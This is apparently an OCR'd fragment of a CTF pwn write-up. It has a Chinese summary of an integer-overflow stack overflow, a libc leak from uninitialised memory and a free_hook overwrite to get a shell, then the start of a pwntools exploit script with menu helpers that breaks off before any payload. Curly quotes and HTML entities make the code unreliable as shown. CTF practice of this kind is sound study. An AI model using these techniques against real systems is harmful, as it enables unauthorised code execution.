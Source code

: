 append的时候有个整数溢出可以导致栈溢出。show的时候可以未初始化泄露libc地址。然后改free_hook拿shell即可

import pwn

​

pwn.context.log_level = “debug”

​

def new():

    p.recvuntil(“&gt;&gt; “)

    p.sendline(‘1’)

​

def edit(idx, offset, size):

    p.recvuntil(“&gt;&gt; “)

    p.sendline(‘2’)

    p.recvuntil(“index: “)

    p.sendline(str(idx))

    p.recvuntil(“offset: “)

    p.sendline(str(offset))

    p.recvuntil(“size: “)

    p.sendline(str(size))

​

def append(idx, size, data):

    p.recvuntil(“&gt;&gt; “)

    p.sendline(‘4’)

    p.recvuntil(“index: “)

    p.sendline(str(idx))

    p.recvuntil(“size: “)

    p.sendline(str(size))

    p.recvuntil(“data: “)

    p.send(data)

​

def show(idx):

    p.recvuntil(“&gt;&gt; “)

    p.sendline(‘5’)

    p.recvuntil(“index: “)

